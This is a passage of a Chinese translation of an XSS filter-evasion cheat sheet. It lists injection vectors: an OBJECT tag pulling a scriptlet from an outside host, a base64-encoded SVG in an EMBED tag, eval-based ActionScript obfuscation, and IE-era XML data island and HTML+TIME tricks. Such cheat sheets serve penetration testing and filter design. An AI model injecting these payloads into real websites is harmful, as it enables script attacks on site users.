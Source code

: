 如果允许 objects 标签，你也可以注入病毒 payloads 去感染用户。类似于 APPLET 标签。这个链接文件是一个包含 xss 代码的 html 文件。

```
<OBJECT TYPE="text/x-scriptlet" DATA="http://ha.ckers.org/scriptlet.html"></OBJECT>
```

## 使用一个你可以载入包含有 xss 代码的 flash 文件的 EMBED 标签

点击这个 demo，如果你加入属性 allowScriptAccess="never" and allownetworking="internal" 他可以缓解这个风险（谢谢 Jonathan Vanasco 的这个信息）

```
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
```

## 使用在 flash 中的 ActionScript 可以混淆你的 xss 向量

```
a="get";
b="URL(\"";
c="javascript:";
d="alert('XSS');\")";
eval(a+b+c+d);
```

## CDATA 混淆的 XML 数据岛

这个 xss 向量尽可以在 IE 和使用了 ie 渲染引擎的 Netscape 8.1 下工作。它是 Sec Consult 在审计雅虎时发现。

```
<XML SRC="xsstest.xml" ID=I></XML>
<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
```

## 使用 XML 数据岛生成含有 javascript 代码的当前域 xml 文件

它是相同的同上面仅仅代替 XML 文件为当前域文件。你可以看到结果在下面。

## HTML+TIME 在 XML 中

它展示的 Grey Magic 是怎样攻击 Hotmail 和 Yahoo! 的。它是仅仅可以工作在 ie 和使用了 ie 渲染引擎的 Netscape 8.1。并且这段代码需要放在 html 域 body 标签之间。

```
<HTML><BODY>
<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
<?import namespace="t" implementation="#default#time2">
<t:set attribute>
</BODY></HTML>
```
